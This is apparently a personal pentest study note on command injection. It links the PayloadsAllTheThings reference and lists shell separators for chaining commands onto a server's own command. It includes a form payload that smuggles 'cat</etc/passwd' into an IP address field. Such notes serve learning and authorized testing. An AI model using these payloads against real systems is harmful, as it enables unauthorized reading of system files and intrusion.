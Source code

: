 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

#### Example 1
![[Pasted image 20220923092643.png]]

![[Pasted image 20220923092704.png]]

Taking logic from payload all the things, we should try these:

>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail

![[Pasted image 20220923093359.png]]

```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```

![[Pasted image 20220923094148.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
